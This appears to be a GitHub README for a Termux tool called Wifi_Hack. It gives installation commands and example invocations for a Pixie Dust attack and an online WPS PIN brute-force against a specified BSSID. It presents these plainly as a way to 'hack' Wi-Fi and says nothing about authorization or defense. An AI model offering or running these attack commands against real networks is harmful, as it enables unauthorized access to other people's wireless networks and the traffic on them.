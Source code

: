 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```
apt update && apt upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python wpa-supplicant pixiewps iw -y
git clone https://github.com/ShTasrif/Wifi_Hack
cd Wifi_Hack
chmod +x sh-hack.py
sudo python sh-hack.py --help
```

#### Example : `sudo python sh-hack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python sh-hack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python sh-hack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo sh-hack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
